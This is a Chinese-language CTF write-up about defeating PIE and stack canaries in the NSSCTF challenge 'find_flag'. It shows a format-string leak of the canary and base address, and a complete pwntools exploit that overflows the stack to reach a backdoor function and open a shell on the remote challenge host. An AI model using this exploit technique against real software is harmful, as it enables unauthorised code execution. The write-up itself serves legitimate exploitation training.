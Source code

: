 # PIE保护（地址随机化）

1. 地址随机化，导致ida中左侧地址栏中的地址不能直接使用，其表示文件中的偏移，要得到实际地址，还需要 **泄漏出基地址，再加上偏移**，才能得到实际地址。

### 1. 格式化字符串泄漏基地址

例题：[[深育杯 2021\]find_flag | NSSCTF](https://www.nssctf.cn/problem/774)

1. check后发现，程序的保护全开：

   ![image-20240702163525495](C:\Users\BKBQWQ\AppData\Roaming\Typora\typora-user-images\image-20240702163525495.png)

2. 程序给了 **格式化字符串+栈溢出+后门函数** 三个漏洞：

   ![image-20240702163632520](C:\Users\BKBQWQ\AppData\Roaming\Typora\typora-user-images\image-20240702163632520.png)

   * 首先要绕过canary，时使用 **格式化字符串** 漏洞泄漏即可，下面gdb调试确定 **canary的偏移** ，可以明显看到canary相对于bp的偏移为 **0xb** ，因为程序时16位，且格式化字符串的首地址再sp上，所以可以确定canary相对于格式化字符串的偏移位： **0xb+0x6=17**：

     ![image-20240702163917636](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407021639712.png)

   * 进一步观察上面的调试信息，可以看到返回地址（绝对地址），再canary的后两格，即绝对返回地址相对于格式化字符串的偏移为： **17+2=19** 。

3. 上面计算出这两个偏移后即可绕过 **PIE和canary保护** ：

   ![image-20240702164515596](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407021645644.png)

   ```python
   payload = b'aaaaaaaa-%17$p-%19$p'
   p.sendline(payload)
   data = p.recv()
   #接受canary
   canary = data[27:45]
   #接受绝对地址
   base = data[46:60]
   canary = eval(canary.decode())
   print(hex(canary))
   #计算基地址，绝对地址-ida中的返回偏移
   base = (eval(base.decode())-0x146F)
   print(base,"sys:",hex(base+0x1231))
   ```

4. 后门函数：

   ![image-20240702164557073](C:\Users\BKBQWQ\AppData\Roaming\Typora\typora-user-images\image-20240702164557073.png)

5. EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   # 设置系统架构, 打印调试信息
   # arch 可选 : i386 / amd64 / arm / mips
   context(os='linux', arch='amd64', log_level='debug')
   p = remote("node4.anna.nssctf.cn",28103)
   # p = process("./find_flag")
   p.recv()
   payload = b'aaaaaaaa-%17$p-%19$p'
   p.sendline(payload)
   data = p.recv()
   canary = data[27:45]
   base = data[46:60]
   canary = eval(canary.decode())
   print(hex(canary))
   base = (eval(base.decode())-0x000000000000146F)
   print(base,"sys:",hex(base+0x0000000000001231))
   
   payload = b'a'*(0x40-8)+p64(canary)+b'a'*8+p64(base+0x0000000000001231)
   p.sendline(payload)
   # p.sendline(b'cat flag')
   # 与远程交互
   p.interactive()
   ```

   ![image-20240702164707648](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407021647714.png)